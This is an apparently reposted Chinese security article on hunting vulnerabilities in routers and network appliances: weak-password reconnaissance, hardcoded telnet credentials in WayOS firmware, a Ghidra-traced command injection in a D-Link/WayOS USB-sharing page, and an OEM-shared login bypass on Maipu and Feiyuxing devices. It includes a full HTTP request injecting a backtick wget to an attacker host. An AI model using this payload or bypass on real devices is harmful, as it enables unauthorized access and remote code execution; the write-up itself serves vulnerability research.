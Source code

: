#  【总结】设备漏洞挖掘思路   
 黑白之道   2024-09-01 09:34  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
  
# 免责声明  
  
  
本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号团队不为此承担任何责任。  
  
# 文章正文  
  
  
在日常渗透过程中，可能会遇到各种路由，上网行为管理等设备，这时候该怎么去对这些设备进去快速挖掘就成为我们想要解决的问题  
## 1.信息收集  
### 1.1 弱口令搜索  
  
对于设备黑盒来说，信息收集也是一个比较重要的过程，更多的时候可以去寻找web后台密码，一些设备可以得到比如通过寻找网上的用户指导手册可得，如  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyuxxxIgDhzMjcCDKickeahln7uUEg03vicwzwcxoxuA5Vfd3FcuYJENdg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyTwIAPGKe72wkrsnUNneibzJIiaGF8sFvoZlPI3rTgPXd6lxHcIByiaBeg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
也可以通过cnvd以及cve查找相应弱口令设备然后进入fofa或者hunter等搜索引擎搜索到未修复的弱口令进入后台挖掘，因为更多的功能点只能在后台更好的做测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAEBghicrXgHJ4QBM46RF5gtu1frILgVtcyGeJmLxJoo2TQfFGQqJrUw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmygu2Hjht8zQZlLfEUf455kYICgy72voo0V7kLuTGLeL9EQwx2xyteeQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
### 1.2 硬编码问题  
  
设备常常会开启一些如telnet,ssh服务，也可能在初始化时会以硬编码的方式开启这些服务端口，允许设备被远程连接，也可能是开发者在调试的一些隐藏后门  
例如wayos微盟路由器固件出现过的mqtt协议泄露账户的漏洞  
在做固件的仿真模拟执行ps的时候看到了该系统仿真后的shell开启了相关的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAxYRkERMF2ppMzuicRd8I9ffochp5MhicOncmMZNDc7F86PondvuTPpA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
也在初始化文件中看到确实有该操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicoVjajDiba1gHcwK5gC56savc0bS0UvcFcFWrmhRiae6Fdx3ic125KT6w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
如图我们看到了确实wayos启动了该telnet服务，利用对字符寻找找到了以下文件，对以下文件进行简单分析目标锁定在了mqtt_ai文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicgUCsQPdoKspibianlicg6Msje1bF8XHjpLmjX7hlXXo9HVGmq8ylF4sw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
通过对函数的简单寻找锁定到该函数mqtt_ai_sw_telnet_login  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyB3gApVSfHPqbabiaRmcteh8dnuqQbZJts3iaGzlSE6uZ64H1djztXZ9g/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
对该函数进行简单分析后，该while函数似乎是对telnet登录的一个校验操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyDsiciagiabgrBXkOz0NV9SxgtWmRRNAzwRbV4cfVTtAg1jMWfbibymSjmw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
使用该硬编码后登录了该设备的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyFvVHeicoyyN9iauIMRDicOewrBNLK2oVc1hqyeXCMCq4wCobIs4ia4elTw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
ssh密码寻找，该设备也可能会开启ssh，我们在做仿真模拟的时候，可以查看/etc/shadow文件，也可以试着解密这密码进行漏洞挖掘  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyMLcicZF9IcxSRiciaGXxHK84KWjUySNqHdJbn6JH8l6AzkwX8G6ycwiaVg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 2.相同组件及OEM框架挖掘  
  
这是我们每个人都会忽略的点，正如我们挖web的时候，挖java的站点我们常常会想到一些fastjson，log4j2这种会造成漏洞的组件漏洞，以及类似springboot框架类似的框架型漏洞，对于我来说我们所说的设备也有所谓的组件以及框架。  
### 2.1 组件漏洞问题  
  
相对于设备来说也有其相应的组件，我们在做设备挖掘，设备可能会有相应的功能点，正如我以下想说的usb共享存储组件导致的命令执行漏洞，以下举例微盟的路由器以及dlink的路由器进行举例  
首先发现了微盟的路由器有该相关漏洞在寻找前台路由器挖掘时，发现了dlink路由器的用户指导手册中具有相同的功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy4UuH7wqp7lxbcVtIicsJc2oicveLJn8icDicibAichkgOHnhEHIosTibhQubg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
将dlink固件拉下解开固件包后寻找漏洞路径字符，发现该组件也拥有相同漏洞路径字符  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyxRfxm4aW9mfISdPAADyKV4kiblOKcfwjBnq9cNdnJUiam9jgHVAPofFw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
进入审计  
首先对该固件丢入ghidra进入分析，在Function栏过滤出主要执行函数system，对该函数点击交叉引用，  
得到所有调用system函数的位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyzYZSgrRdOsIKx7tWhEG4GHPVXtIbfGYyIYwIcp17943kgCXHMsWcsA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
开始反溯system执行的命令中含有可控数据流部分，通过逐个调用点反编译，发现以下可控数据流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybKbvTNlQy5QUs2bWpib5vsJTtQ0n4QErGzJfmObhicQ3tP4dd189ssXQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
这段代码的本来主要目的是设置Samba服务器的用户名。它首先获取两个全局变量的值，然后使用echo  
命令将这些值写入/etc/smbusers文件。这样，Samba服务器就可以使用这些用户名进行身份验证，但从  
该伪代码可以看出用户输入获取usb_username和use_husername没有进行完全过滤，拼接的命令直接作  
为system()参数执行，故此可能引发命令注入  
往下看我们可以发现该输出代码从用户输入的hname函数中获取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyZJymNMsdUWjWoKE30btIcd7LZGctSn5fibyMhv2ZUsP8BWDchCXwHvw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
使用poc进行wget请求  
```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host:192.168.1.1

User-Agent:Mozilla/5.0(X11;Ubuntu;Linux x86_64; rv:104.0)Gecko/20100101Firefox/104.0

Accept: application/json, text/javascript,*/*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```  
  
本机先起一个服务，发送上述数据包发现该被攻击机对攻击机服务器发起了服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybOGK3wcdRhD7s26sR5Cficiba2xNGCwoXtz6UNYtdNV71emias50D534Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
### 2.1 OEM漏洞问题  
  
正如上述所说，设备也有属于自己的框架，我们可以通过相应的，可以通过寻找一些cve或者cnvd的路由器进行获取一些js获取得到一些类似的系统设备的相同漏洞，或者rce之后做白盒审计发现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy8QTB1oxFelFVZzSVnaOezniascnWnaEZCNmoXnUyJf2CPu7vJHVNr8A/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
如最近的迈普的多业务融合系统和飞鱼星的企业智能上网行为管理的相同漏洞，根据一些引用的静态文件，寻找到两种设备都为使用相同OEM  
飞鱼星飞鱼星企业级智能上网行为管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyRicwrtJia5txvD1sXjXJwk5PiaHAc2HDDI0UBrBnoIJ79QXhKzCNw4w7Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
迈普多业务融合系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyznesd15tzrhXPafafMRTHWfKQzNnmWdR9QfBwLeYztiaqmHrFcAa19Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyl42n1gY4WCB6q1CFPknibSP8jbiagHZhkdarial0sXOZUAwchhiaYHQS0Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
发现飞鱼星漏洞在迈普依旧可以使用，如该权限绕过漏洞  
迈普多业务融合系统存在权限绕过(未公开poc，通过飞鱼星反溯得到)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy46NFz5UwPBaeo3aytlGm9dEItYleibHyMQIJWqFHXiaMx4XMkpHqn7EA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
然后访问   
http://xxx/home/index.htm,丢弃cookie.cgi相同包可以绕过设备登录校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmywwiaz6Vicu0KsevAmibtCXvgO9ibhXbCQrLZDj9ibekHVurjJdm9O07ZvOA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyofgicbsr9ic58jjNT2G8RFrVRKukg3lXWBb4xt55uKfa7y2OSEfJFnnw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
> **文章来源：先知社区**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
